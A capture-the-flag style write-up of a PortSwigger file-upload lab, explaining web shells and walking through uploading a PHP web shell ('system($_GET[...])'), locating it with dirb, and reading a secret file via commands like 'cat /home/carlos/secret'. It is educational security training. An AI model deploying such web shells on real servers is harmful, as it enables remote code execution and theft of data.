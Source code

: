 ## Welcome, my friend. Today we will start the [1. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) in ```portswigger```

# Explain this Scenario:

# Exploiting unrestricted file uploads to deploy a web shell

## 1. What is the worst security scenario?
#### When a website allows you to upload files that contain server code, such as ```PHP```, ```Java```, or ```Python``` files, and the site is set up to execute this code as software, it poses a significant risk.

## 2. What is a web interface?
#### A Web Shell is a malicious script that allows an attacker to execute arbitrary commands on a remote web server just by sending HTTP requests to the appropriate point.

## 3. What could an attacker do if they could load the web interface?
#### If you can load the web interface successfully, it means you have full control of the server. You could:

##### 1. Read and write random files.
##### 2. Extracting sensitive data.
##### 3. Using the server to carry out attacks against the internal network infrastructure or other servers outside the network.

## 4. Example of a simple web interface using PHP:
#### If you are using a PHP web interface, you can use a script like this to read files from the server's file system:

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

or 

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

<?php
    echo system($_GET["cmd"]);
?>

### When you upload this script to the server, you can send a request to this malicious file, and the server will respond with the contents of the target file.




# Let'a play this lab:

![image](https://github.com/user-attachments/assets/7506bd9f-ec1f-4975-819e-159b262c852d)


#### Let's log in to your own account using the following credentials: ```wiener:peter```


![image](https://github.com/user-attachments/assets/1d856fbf-32ac-465c-bbe6-3d9c9f882250)


#### Let's create a php malicious payload in file ```tor1.php```:

### within tor1.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)


### Now, Let's upload this malicious payload to server.

![image](https://github.com/user-attachments/assets/03b2432e-bf45-4ce5-8288-8dee4cbee46e)

#### WOW! The file has been uploaded successfully.

### That server is very nice because it also tells us where our beautiful file is. We just have to go to that path ```/avatars/tor1.php```.

![image](https://github.com/user-attachments/assets/95418d52-94e1-45d4-afbf-9b7609d8127f)

#### But This path was not complete, but there was a path before it


#### To find out the full path, we can use tools such as ```derb``` to discover hidden directory, or we can use ```burp Suite``` and wander around the site and explore paths that are hidden or unknown to us.

#### Using dirb tool:

```
dirb https://0a43006f03b23e5d84a947a8009b0083.web-security-academy.net
```


![image](https://github.com/user-attachments/assets/eda964d8-c388-41ce-953e-fb992c386a76)


### Great we discover ```/files```  How about we explore more of that path?

```
dirb https://0a43006f03b23e5d84a947a8009b0083.web-security-academy.net/files
```

![image](https://github.com/user-attachments/assets/bf135c5f-c88b-4f7f-8cf3-0be3bd931016)

## Well, our file is uploaded in this path ```/files/avatars/tor1.php```

#### Using burp suite tool:

![image](https://github.com/user-attachments/assets/454a051f-c063-49e4-bcff-ee4f669c0399)

### Well, You can use the methods that you find easy for you.


#### Ok , Let's go to this path ```files/avatars/tor1.php```. But it ```won't work```, we'll know why now.

![image](https://github.com/user-attachments/assets/aa881ec4-8d8f-48aa-897b-cb6d98dcbade)

#### The reason is that we forgot to include the ```tor``` parameter.

```
/files/avatars/tor1.php?tor=id
```

![image](https://github.com/user-attachments/assets/035e4ba4-610d-47a7-8028-fdf2fceedb5b)

#### Ok this task requrie reach to /home/carlos/secret file.

![image](https://github.com/user-attachments/assets/877440f3-b7cb-42c5-a6a6-077435f9bb74)


```
/files/avatars/tor1.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/2f1a44d6-5fa0-4266-b588-8dc3c54393e4)

#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/ea0199d0-ecaf-46fc-b826-d0f80818814a)

## Then ...

![image](https://github.com/user-attachments/assets/5ffbebf9-faab-4678-8e50-2d84d78d028a)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ee5963aa-ad3b-4118-8dae-82a31f1ca479" >
</p>




